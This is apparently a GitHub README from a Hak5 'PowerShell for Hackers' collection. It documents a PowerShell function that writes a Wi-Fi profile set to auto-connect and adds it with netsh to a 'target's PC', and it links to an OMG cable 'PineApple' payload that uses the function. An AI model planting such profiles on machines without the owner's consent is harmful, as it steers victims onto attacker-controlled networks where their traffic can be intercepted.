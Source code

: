 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Add-NetWork

## Description

This function will add a network profile to your targets PC  

## The Function

### [Add-NetWork] 

This function will accept 3 parameters, 2 of which are mandatory 

You always have to provide the $SSID to give your network a name 

The $Security parameter is also mandatory only takes the value of "t"(true) or "f"(false) 

This will tell the function whether or not you need a wifi password for your network 

If a wifi password is deemed necessary you provide it using the $PW variable 

Set-up a new network profile on your targets PC using the following syntax: 

```
For a network profile using a Password use:

Add-NetWork -SSID wifi-name -security t -PW wifi-password

For a network profile NOT using a Password use:

Add-NetWork -SSID wifi-name -security f

```


```
function Add-NetWork {

[CmdletBinding()]
param (	
[Parameter (Mandatory = $True)]
[string]$SSID,

[Parameter (Mandatory = $True)]
[string]$Security,

[Parameter (Mandatory = $False)]
[string]$PW

)

# -------------------------------------------------------------------------------------------------

$sec = switch ( $Security )
{
    "t"  { 
"
        <security>
            <authEncryption>
                <authentication>WPA2PSK</authentication>
                <encryption>AES</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
            <sharedKey>
                <keyType>passPhrase</keyType>
                <protected>false</protected>
                <keyMaterial>$PW</keyMaterial>
            </sharedKey>
        </security>
"
}
    "f" { 

"
        <security>
            <authEncryption>
                <authentication>open</authentication>
                <encryption>none</encryption>
                <useOneX>false</useOneX>
            </authEncryption>
        </security>
" 

}
}

# -------------------------------------------------------------------------------------------------

$profilefile="ACprofile.xml"
$SSIDHEX=($SSID.ToCharArray() |foreach-object {'{0:X}' -f ([int]$_)}) -join''
$xmlfile="<?xml version=""1.0""?>
<WLANProfile xmlns=""http://www.microsoft.com/networking/WLAN/profile/v1"">
    <name>$SSID</name>
    <SSIDConfig>
        <SSID>
            <hex>$SSIDHEX</hex>
            <name>$SSID</name>
        </SSID>
    </SSIDConfig>
    <connectionType>ESS</connectionType>
    <connectionMode>auto</connectionMode>
    <MSM>
$sec
    </MSM>
</WLANProfile>
"

$XMLFILE > ($profilefile)
netsh wlan add profile filename="$($profilefile)"
}

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[PineApple](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-PineApple)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
